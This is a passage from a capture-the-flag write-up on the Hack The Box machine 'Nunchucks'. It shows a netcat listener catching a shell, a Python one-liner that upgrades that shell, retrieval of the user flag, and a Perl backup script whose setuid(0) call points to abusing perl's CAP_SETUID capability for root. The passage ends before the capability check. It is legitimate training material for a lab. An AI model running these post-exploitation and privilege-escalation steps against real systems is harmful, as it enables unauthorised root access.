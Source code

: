 First let's upgrade the shell to something more useable:

```text
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
david@nunchucks:/var/www/store.nunchucks$ ^Z                
zsh: suspended  nc -nlvp 1337
┌──(root💀kali)-[~/htb/nunchucks]
└─# stty raw -echo; fg
[1]  + continued  nc -nlvp 1337
david@nunchucks:/var/www/store.nunchucks$
```

## User Flag

With that sorted let's get the user flag:

```text
david@nunchucks:/var/www/store.nunchucks$ cat /home/david/user.txt 
<HIDDEN>
```

After some enumeration I found a Perl script in /opt:

```sh
david@nunchucks:/var/www/store.nunchucks$ ls -lsa /opt
4 -rwxr-xr-x  1 root root  838 Sep  1 12:53 backup.pl
4 drwxr-xr-x  2 root root 4096 Oct 28 17:03 web_backups
```

## Setuid Exploit

Looking at the script the first section has setuid(0):

```perl
david@nunchucks:/var/www/store.nunchucks$ cat /opt/backup.pl 
#!/usr/bin/perl
use strict;
use POSIX qw(strftime);
use DBI;
use POSIX qw(setuid); 
POSIX::setuid(0); 
```

The rest of the script is taking the contents of /var/www and backing it up to /tmp then moving it to /opt. The interesting part is that setuid command at the start. On a previous TryHackMe box called [Wonderland](https://pencer.io/ctf/ctf-thm-wonderland/#root-flag) I used this same capability. The GTFOBins article [here](https://gtfobins.github.io/gtfobins/perl/#capabilities) explains how we can exploit this:

```text
If the binary has the Linux CAP_SETUID capability set or it is executed by another
binary with the capability set, it can be used as a backdoor to maintain privileged
access by manipulating its own process UID.
```

If we check the perl binary we see it has CAP_SETUID set:
